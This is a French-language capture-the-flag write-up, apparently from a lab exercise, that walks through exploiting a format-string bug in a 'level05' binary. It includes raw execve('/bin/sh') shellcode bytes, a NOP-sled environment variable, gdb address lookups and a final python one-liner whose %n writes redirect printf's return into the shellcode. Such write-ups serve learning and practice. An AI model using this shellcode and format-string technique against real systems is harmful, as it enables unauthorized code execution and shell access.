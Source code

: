 # Writeup

Lorsque nous arrivons au level5, nous constatons qu'il n'y a pas de protection
sur le binaire. Nous le lancons une premiere fois, et nous voyons qu'un input
est attentu sur l'entree standard.

![Capture d’écran 2020-10-07 à 04 51 47](https://user-images.githubusercontent.com/25014717/95283461-2d013780-085c-11eb-9337-dceea4c3989a.png)

Apres avoir lance le binaire sous gdb, nous constatons que le programme est
relativement simple: apres avoir lu notre sur l'entree standard dans un buffer
de 100 char, le programme inspecte chaque caractere, et si celui ci est
majuscule, effectue un XOR de 0x20, ce qui a pour consequence de le transformer
en minuscule.Apres cette operation, le buffer est directement envoye a printf,
ce qui nous ouvre la porte pour un exploit de format string.


![Capture d’écran 2020-10-07 à 04 52 54](https://user-images.githubusercontent.com/25014717/95283459-2c68a100-085c-11eb-9394-4f2313cf9eb2.png)

![Capture d’écran 2020-10-07 à 04 52 25](https://user-images.githubusercontent.com/25014717/95283460-2c68a100-085c-11eb-94b8-ae0cb0ca8af8.png)


Nous avons deux contraintes: la premiere est quele buffer etant modifie avec des
XOR, nous ne pouvons pas y placer notre shellcode. La seconde est que le main
quitte le programme via un exit, et non par un return. Avec notre format string,
nous pouvons ecrire a loisir dans la memoire. Nous avons donc deux options: soit
modifer l'appel a exit dans la global offset table, soit manipuler la valeur
qu'utilisera le printf pour retourner de son appel et revenir au main. Dans les
deux cas, nous ferrons passer notre shellcode par l'environnement.



Dans un premier temps, pour avoir le decalage d'adresse de le plus minime
possible, nous chargeons notre shellcode dans l'environnement avec un nopsled.

> echo -ne '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin 
>
> export SLEDCODE=$(python -c 'print "\x90"*128')$(cat /tmp/shellcode.bin)

Nous determinons ensuite ou se situe notre chaine de caractere
dans la stack:

> 'print "aaaa " + "%08x " * 20' | ./level05

![Capture d’écran 2020-10-07 à 04 56 13](https://user-images.githubusercontent.com/25014717/95283457-2bd00a80-085c-11eb-9f63-62f2b896213f.png)



Notre adresse a ecrire se trouvera donc au 10eme element. Comme nous allons
ecrire une adresse, nombre assez eleve, nous choisisons d'ecrire en deux
fois. Nous utiliserons donc les positions 10 et 11, et passerons deux adresses
dans notre format string.

> '[Adresse Cible] + [Adresse cible + 2] + %[2 Premiers bytes - 8]x + "%10$n"
> \+ %[2 Derniers bytes - 2 Premiers bytes]x + "%11$n"

Pour recuperer l'adresse qui nous interesse, il nous suffit d'aller regarder le
retour de printf dans gdb

> (gdb) b *printf+50
> (gdb) x/a $esp

![Capture d’écran 2020-10-07 à 05 00 08](https://user-images.githubusercontent.com/25014717/95283450-296db080-085c-11eb-9db2-0c516ea163ab.png)

Nous recuperons notre adresse cible. Nous en profitons pour recuperer l'adresse
du milieu de notre sled:

> (gdb) x/12s *((char **) environ)

![Capture d’écran 2020-10-07 à 05 00 38](https://user-images.githubusercontent.com/25014717/95283451-2a9edd80-085c-11eb-9704-2ea3f375104b.png)


Le calcul a effectuer pour recuprer le millieu de notre nodsled est le suivant:

> & == ADRESSE
> [&SLEDCODE] + (([&VARIABLE SUIVANTE] - [&SLEDCODE]) / 2)

Nous prennons donc cette adresse, la separons en deux parties que nous calculons
selon la methode decrite plus haut.

Fort de tout ces elements, nous avons la commande finale:

> (python -c 'print "\xbc\xd5\xff\xff" + "\xbe\xd5\xff\xff" + "%55528x" + "%10$n" + "%9999x" + "%11$n"'; cat -) | ./level05

![Capture d’écran 2020-10-07 à 05 01 54](https://user-images.githubusercontent.com/25014717/95283456-2bd00a80-085c-11eb-9206-02cfb3bc133f.png)


![Capture d’écran 2020-10-07 à 05 02 07](https://user-images.githubusercontent.com/25014717/95283449-28d51a00-085c-11eb-95a7-f07523542d4f.png)
